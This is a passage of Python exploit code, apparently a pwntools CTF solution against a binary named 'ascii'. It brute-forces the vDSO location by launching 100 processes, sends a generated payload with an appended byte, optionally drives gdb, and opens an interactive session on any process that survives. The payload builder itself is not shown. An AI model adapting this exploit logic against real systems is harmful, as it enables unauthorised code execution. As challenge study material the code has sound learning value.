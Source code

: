 ```python
            try:
                payload = gen_payload(vdso_start)
                break
            except AssertionError as e:
                print('trying again...' + str(howmany))
                howmany += 1
                p.close()
                continue
    else:
        procq = [process('ascii') for _ in range(100)]

    if DEBUG:
        if GDB:
            gdb.attach(p, gdbscript='''
            display/x $eax
            display/10i $eip
            b *0x8048f0d
            c
            b *0x80000000
            ''')
            payload += b'\x9d'
            p.send(payload)
            raw_input('waiting for input...')
        else:
            p.send(payload)
    else:
        for p in procq:
            payload = gen_payload(VDSO_START)
            payload += b'\x9d'
            p.send(payload)

    for p in procq:
        if p.poll() is None:
            print('got one!')
            p.interactive()
            exit(0)
        p.close()
```
